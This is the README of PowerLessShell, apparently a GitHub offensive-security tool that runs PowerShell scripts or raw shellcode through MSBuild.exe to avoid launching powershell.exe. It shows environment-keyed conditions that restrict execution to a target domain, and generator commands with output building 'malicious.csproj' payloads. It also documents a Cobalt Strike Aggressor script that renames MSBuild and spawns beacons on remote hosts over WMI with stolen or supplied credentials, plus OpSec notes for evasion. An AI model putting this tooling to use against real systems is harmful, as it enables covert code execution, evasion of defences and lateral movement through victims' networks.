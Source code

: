 # PowerLessShell

PowerLessShell rely on MSBuild.exe to remotely execute PowerShell scripts and commands without spawning powershell.exe. 
You can also execute raw shellcode using the same approach.

# MSBuild conditions 

MSBuild support condition that can be used to avoid running code if the condition is not met.

```
<Target Name="x" Condition="'$(USERDOMAIN)'=='RingZer0'">
```

The malicious code will only be executed if the current user domain is "RingZer0"

Condition supports several other formats that can be used to create more conditional execution check.

```
<Target Name="x" Condition="'$(registry:HKEY_LOCAL_MACHINE\blah@blah)'>='0'">
```

Property Functions also expose interesting data.

```
https://docs.microsoft.com/en-us/visualstudio/msbuild/property-functions
```

# Usage

PowerLessShell use commandline argument to generate the final file.

```
$ python PowerLessShell.py -h
PowerLessShell Less is More
Mr.Un1k0d3r RingZer0 Team
-----------------------------------------------------------
usage: PowerLessShell.py [-h] [-type TYPE] -source SOURCE -output OUTPUT
                         [-arch ARCH] [-condition CONDITION]

optional arguments:
  -h, --help            show this help message and exit
  -type TYPE            Payload type (shellcode/powershell) default to:
                        shellcode
  -source SOURCE        Path to the source file (raw shellcode or powershell
                        script)
  -output OUTPUT        MSBuild output filename
  -arch ARCH            Shellcode architecture (32/64) default to: 32
  -condition CONDITION  XML Compiling condition default (Check for USERDOMAIN)
                        default is: none
```

Generating a powershell payload
```
$ python PowerLessShell.py -type powershell -source script.ps1 -output malicious.csproj
PowerLessShell Less is More
Mr.Un1k0d3r RingZer0 Team
-----------------------------------------------------------
Generating the msbuild file using include/template-powershell.csproj as the template
File 'malicious.csproj' created
Process completed
```

Generating a shellcode payload
```
$ python PowerLessShell.py -source shellcode.raw -output malicious.csproj
PowerLessShell Less is More
Mr.Un1k0d3r RingZer0 Team
-----------------------------------------------------------
Generating the msbuild file using include/template-shellcode.csproj as the template
File 'malicious.csproj' created
Process completed
```

Generating a 64 bits shellcode payload
```
$ python PowerLessShell.py -source shellcode64.raw -output malicious.csproj -arch 64
PowerLessShell Less is More
Mr.Un1k0d3r RingZer0 Team
-----------------------------------------------------------
Generating the msbuild file using include/template-shellcode.csproj as the template
Generating a payload for a 64 bits shellcode! Don't forget to use the 64 bits version of msbuild.exe
File 'malicious.csproj' created
Process completed
```

# Cobalt Strike Aggressor script (wmi_msbuild.cna) 
By Alyssa (ramen0x3f) and MrT-F
### Set Up
* Either copy PowerLessShell folder to [cobalts working dir]/PowerLessShell or make note of path
* If you didn't copy it to the Cobalt directory: edit the $pls_path variable in this file to point to PowerLessShell
* Load script into Cobalt Strike

### Usage
```
check_msbuild -target TARGET   		Verify .NET 4.0.30319 is installed (should see "Status OK")
	[-user user] [-pass pass]		Windows 7 has .NET 4.0.30319 after 3 reboots and 4 Windows update cycles

rename_msbuild -target TARGET 		Copy MSBuild.exe. 
	-msbuild newname 
 	[-path C:\new\path] 		Default - C:\Users\Public\
	[-user domain\username]		Specifying user/pass spawns cmd on remote host.
 	[-pass password]			

wmi_msbuild -target TARGET 		 	Spawn new beacon. 
         -listener LISTENER
	[-payload new_file]		 	Default - [a-zA-Z].tmp
	[-directory new_dir]			Default - C:\Users\Public\
	[-msbuild alt_msbuild_location] 	
	[-user USERNAME] [-pass PASSWORD]	
	[-manualdelete]				Switch doesn't auto delete payload.
```
### OpSec Notes
Spawns cmd.exe on the target system if
* ManualDelete switch is not set
* rename_msbuild is run with a username/password specified

# Credit
Mr.Un1k0d3r RingZer0 Team 2017

